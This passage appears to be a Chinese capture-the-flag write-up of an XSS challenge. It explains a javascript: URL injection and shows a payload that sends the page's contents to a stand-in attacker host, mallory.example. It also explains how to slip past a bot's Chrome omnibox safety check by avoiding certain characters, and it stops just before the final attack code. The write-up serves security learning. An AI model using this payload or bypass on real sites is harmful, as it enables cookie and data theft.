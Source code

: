 ### 给钱不要！

访问「梗图网盘」，阅读前端的源代码，可见 XSS 攻击的漏洞：

```javascript
function go() {
  location.href = document.getElementById("filename").value + ".jpg";
}
```

只要在文本框中填入 `http:` URL，就能将网页重定向至攻击者的服务器；而填入 `javascript:` URL，就能在网页上运行攻击代码。例如，下面的 URL 能将包含 Flag 的内容发送给攻击者：


```javascript
javascript:location.href='http://mallory.example/?'+encodeURI(document.body.innerHTML)//
```

分析 XSS Bot 源代码 `prob06-xssbot.py`，可见其在填入文本框前，通过 `chrome://omnibox` 功能检测输入字符串的「安全性」。该网页是 Chrome 浏览器的地址栏调试工具。只有被 Chrome 识别为「query」或「unknown」的字符串才能被 XSS Bot 接受。访问该调试工具，输入上述 `javascript:` 代码，得知 Chrome 将其识别为「url」，从而被 XSS Bot 拒绝。

经反复测试，可发现不是所有的 `javascript:` 代码都会识别为「url」，有的代码会识别为「unknown」。事实上，通过 [Chromium 源代码](https://chromium.googlesource.com/chromium/src/+/refs/tags/106.0.5249.163/components/omnibox/browser/autocomplete_input.cc#304)可以找到其识别逻辑：

```cpp
// Treat javascript: scheme queries followed by things that are unlikely to
// be code as UNKNOWN, rather than script to execute (URL).
if (RE2::FullMatch(base::UTF16ToUTF8(text), "(?i)javascript:([^;=().\"]*)")) {
  return metrics::OmniboxInputType::UNKNOWN;
}
```

从正则表达式可见，如果代码中不包含 `;=()."` 等字符，就是安全的，能被 XSS Bot 接受。

> 也可以阅读[这篇知乎回答](https://www.zhihu.com/answer/2722866208)：
>
> [![](assets/zhihu-omnibox.png)](https://www.zhihu.com/answer/2722866208)

要让代码中避免上述字符，可将代码写成字符串字面量，其中的不安全字符都用 `\x__` 进行转义，再把字符串用 `eval()`、`Function()` 等方式求值。单引号是一个安全字符，可用其表示字符串字面量。调用函数时不用括号较为麻烦，但也有[若干种方法](https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses)，如通过[带标签的模板字符串](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Template_literals#%E5%B8%A6%E6%A0%87%E7%AD%BE%E7%9A%84%E6%A8%A1%E6%9D%BF%E5%AD%97%E7%AC%A6%E4%B8%B2)。最终的攻击代码如下：
